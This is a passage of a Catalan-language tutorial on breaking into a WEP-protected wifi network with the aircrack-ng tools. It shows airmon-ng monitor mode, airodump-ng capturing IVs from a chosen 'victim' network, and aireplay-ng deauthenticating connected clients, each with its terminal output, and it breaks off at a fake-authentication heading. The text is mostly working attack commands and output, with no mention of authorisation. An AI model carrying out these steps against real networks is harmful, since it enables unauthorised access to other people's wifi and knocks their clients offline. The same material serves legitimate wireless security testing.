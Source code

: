 <pre>
# airmon-ng start wifi0

usage: airmon-ng &lt;start|stop&gt; &lt;interface&gt; [channel]

Interface       Chipset         Driver

ath0            Atheros         madwifi-ng VAP (parent: wifi0)
wifi0           Atheros         madwifi-ng (monitor mode enabled)
</pre>
<p>Això ens crearà la interface <tt>ath1</tt> en mode monitor. Seguidament hem d'executar <code>airodump-ng</code> per veure les xarxes wifi disponibles, i els possibles clients connectats a cada AP.</p>
<pre>
# airodump-ng -w capturefile ath1

 CH  9 ][ Elapsed: 56 s ][ 2006-04-27 02:50

 BSSID              PWR  Beacons   # Data  CH  MB  ENC   ESSID

 00:14:BF:42:4B:2B  151      102        0   3  48  OPN   pofHQhotspot
 00:C0:94:1F:3D:49  109       61        7   6  48  WEP   pofHQWep
 00:06:25:7D:71:5D  128       65        0   1  48  WPA   pofHQ

 BSSID              STATION            PWR  Packets  Probes
</pre>
<p>Un cop hem seleccionat la xarxa víctima (en aquest exemple serà <em>pofHQWep</em>) anotem el ESSID, BSSID i si hi ha clients connectats també les MACs dels clients. Premem CTRL+C per sortir de <tt>airodump-ng</tt> i continuem el procés.</p>
<p>Tornem a executar <tt>airodump-ng</tt>, amb la següent sintaxis per capturar els IVs per fer l'atac i fixant-lo al canal de la WLAN que volem atacar.</p>
<pre>
# airodump-ng -c 6 --ivs -w capturefile ath1
</pre>
<p>Ara hem de deixar el <tt>airodump-ng</tt> funcionant, i canviem a un altre terminal.</p>
<p>El procés és una mica <strong>més complicat si no trobem cap client connectat</strong> a la xarxa, en aquest cas haurem de jugar una mica més per poder reinjectar tràfic, aquests són els diferents atacs que podem realitzar amb l'objectiu d'augmentar el tràfic de la xarxa per recollir IVs que revelin informació de la clau.</p>
<h4>Deauthentication attack</h4>
<p>Aquest atac ens permet recuperar un SSID ocult (que no tingui broadcast), capturar handshakes WPA forçant que els clients es reautentiquen, i generar ARP requests ja que els clients Windows buiden la cache d'ARP quan son desconnectats. Evidentment, aquest atac no serà efectiu si no hi ha cap client associat a la xarxa.</p>
<p>Intentem trobar la MAC d'un client, primer provem desautenticant a totes les estacions:</p>
<pre>
# aireplay-ng -a 00:C0:94:1F:3D:49 --deauth 3 ath1
NB: this attack is more effective when targeting
a connected wireless client (-c &lt;client's mac&gt;).
02:59:15  Sending DeAuth to broadcast -- BSSID: [00:C0:94:1F:3D:49]
02:59:16  Sending DeAuth to broadcast -- BSSID: [00:C0:94:1F:3D:49]
02:59:17  Sending DeAuth to broadcast -- BSSID: [00:C0:94:1F:3D:49]
</pre>
<p>Si algun client fos desautenticat airodump-ng veuria com es reautentica i apareixeria la seva mac a la llista de clients. Podem repetir l'atac amb el paràmetre <code>-c</code> per atacar a un client específic.</p>
<p>Si amb aquest atac no tenim sort (xej, no hi ha cap client connectat), podem provar forçant una autenticació falsa:</p>
<h4>Fake authentication attack</h4>